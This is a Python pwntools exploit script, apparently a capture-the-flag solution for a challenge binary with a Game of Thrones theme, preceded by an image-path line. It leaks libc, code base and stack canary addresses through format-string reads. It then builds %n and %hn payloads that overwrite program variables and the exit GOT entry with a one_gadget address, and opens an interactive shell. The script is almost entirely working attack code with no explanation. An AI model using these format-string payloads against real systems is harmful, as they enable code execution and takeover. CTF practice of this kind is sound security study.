 ```

libc = use_dragons("%9$p") - 0x95106
info('libc: %s'%hex(libc))

code = use_dragons("%13$p") - 0x160a
info('code: %s'%hex(code))

canary = use_dragons("%11$p")
info('canary: %s'%hex(canary))

num_men = code + exe.symbols['num_men']
num_dragons = code + exe.symbols['num_dragons']
exit = code + exe.got['exit']
info('num_men: %s'%hex(num_men))
info('num_dragons: %s'%hex(num_dragons))
info('exit: %s'%hex(exit))

one_gadget = libc + 0xe6c81

pay1 = '%{}p'.format(30000-4)
pay1 += 'a'*4
pay1 += '%12$n'
pay1 += p64(num_men)

#info('num_men: %s'%hex(num_men))
kings_landing('2', 1, pay1)

off1 = int('0x' + hex(one_gadget)[-4:], 16)# lsb
#print(off1)
off2 = int('0x' + hex(one_gadget)[-8:-4], 16)# msb
#print(off2)

while(off1>off2):
		off2 += 0x10000

pay2 = '%{}p'.format(off1-4)
pay2 += 'a'*4
pay2 += '%14$n'
pay2 += '%{}p'.format(off2-off1-3)
pay2 += 'b'*3
pay2 += '%15$hn'
pay2 += p64(exit)
pay2 += p64(exit+2)

kings_landing('\n2', 1, pay2)

pay3 = '%{}p'.format(200-6)
pay3 += 'c'*6
pay3 += '%12$n'
pay3 += p64(num_dragons)

kings_landing('\n2', 1, pay3)

white_walkers('\n3')

p.interactive()
```

